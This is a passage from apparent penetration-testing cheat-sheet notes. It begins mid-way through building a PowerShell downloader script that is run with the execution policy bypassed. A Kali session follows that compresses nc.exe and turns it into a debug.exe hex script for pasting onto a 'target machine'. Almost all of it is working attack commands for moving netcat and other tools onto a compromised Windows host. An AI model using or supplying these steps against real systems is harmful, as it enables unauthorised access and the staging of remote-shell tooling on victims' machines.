•	echo $webclient.DownloadFile($url,$file) >>viperwget.ps1


•	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File viperwget.ps1

#### USING DEBUG.EXE TO TRANSFER FILES

There is a 64k byte size limit to the files that can be created by debug.exe

root@kali:~# locate nc.exe|grep binaries

/usr/share/windows-binaries/nc.exe

root@kali:~# cp /usr/share/windows-binaries/nc.exe .

root@kali:~# ls -l nc.exe

-rwxr-xr-x 1 root root 59392 Apr 11 05:13 nc.exe

root@kali:~# upx -9 nc.exe

root@kali:~# ls -l nc.exe

-rwxr-xr-x 1 root root 29184 Apr 11 05:13 nc.exe

root@kali:~# locate exe2bat

/usr/share/windows-binaries/exe2bat.exe

root@kali:~# cp /usr/share/windows-binaries/exe2bat.exe .

root@kali:~# wine exe2bat.exe nc.exe nc.txt

Finished: nc.exe > nc.txt

root@kali:~# head nc.txt

Now copy and paste the hex code into the c:\ on the target machine

